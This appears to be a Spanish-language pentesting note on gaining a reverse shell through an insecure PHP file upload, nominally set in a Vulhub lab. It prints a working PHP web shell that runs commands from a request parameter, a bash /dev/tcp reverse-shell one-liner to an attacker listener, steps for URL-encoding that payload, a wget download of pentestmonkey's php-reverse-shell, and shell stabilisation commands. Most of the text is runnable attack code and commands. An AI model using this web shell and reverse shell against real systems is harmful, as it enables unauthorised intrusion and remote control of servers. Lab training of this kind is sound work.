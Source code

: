 ### Reverse Shell con php

- Lo ideal es encontrar un sitio web vulnerable (Vulhub)
- El sitio tiene una subida de archivos de cualquier tipo:

En el btn de selección de archivos, subimos el archivo con el código php para la ejecución del código:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre";
?>
```

Podemos utilizar una herramienta llamada `dirb` para encontrar directorios web

En Kali lo siguiente:

```sh
(root@kali)- [/home/kali/Desktop]
-> dirb http://elsitioweb
...

====> DIRECTORY: http://elsitioweb/uploads/
```

- Copiamos esa ruta... la llevamos a la url
- Ubicamos el archivo malicioso, copiamos el nombre - lo agregamos a la URL
- Nos queda lo siguiente en la URL:

```sh
-> http://elsitioweb/uploads/pwned.php?cmd=whoami
-> http://elsitioweb/uploads/pwned.php?cmd=id
-> http://elsitioweb/uploads/pwned.php?cmd=ls
```

Y ya puedo ejecutar comando desde la url.

Solo faltaría enviar un comando que conecte con nuestro servidor:

```sh
$ ifconfig
# nos devuelve nuestra IP

$ nc -nlvp 443 # cualquier puerto
```

Necesitamos que vaya el comando en la URL:

```sh
$ bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'
# esto asi, no nos sirve
```

Podemos capturarlo con Burp Suite:

- En la sección de `Decoder`
- Pegamos el comando : `bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'`
- En la parte del lado derecho seleccionamos `Encode as...` - `URL`
- Nos entrega un resultado y eso lo pegamos en la URL: 

```sh
$ http://elsitioweb/uploads/pwned.php?cmd=AQUIELCOMANDODEBURPSUITE
```

Con esto tenemos la conexión con la máquina objetivo.

### Plan B:

Nos ahorramos todo esto y buscamos el repositorio en:

`pentestmonkey/php-reverse-shell`

Link: [pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shel)

Nos traemos el archivo: `php-reverse-shell.php` con raw

Y con:

```sh
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

$ ls
```

Editamos el archivo:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127...';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Esta vez no necesitamos hacer tantos pasos:

- En la URL: `http://elsitioweb/uploads/php-reverse-shell.php`
- Teniendo en cuenta que el puerto esta en escucha (443 ó 444)
- Ejecutamos...

Hacemos tratamiento de TTY (interactive):

```sh
$ ls
$ script /dev/null -c bash
www-data@simple:/$ ^Z
szh: suspended nc -nlvp 444

(root@kali)-[/home/kali/Desktop]
-> $ stty raw -echo; fg
[1] + continued nc -nlvp 444
...

$ export SHELL=bash
$ export TERM=xterm
...
```

### ¿Cómo se realiza el tratamiento de la TTY?

Ya con los pasos anteriores podemos hacer lo siguiente:

```sh
$ script /dev/null -c bash

# luego con ctrl + z

$ stty raw -echo;fg
[1] + continued nc -nlvp 444
                          reset xterm
# si nos da un error podemos ejecutar lo siguiente:
$ export TERM=xterm
# ya con este tratamiento de interactividad nos funciona todo.
```

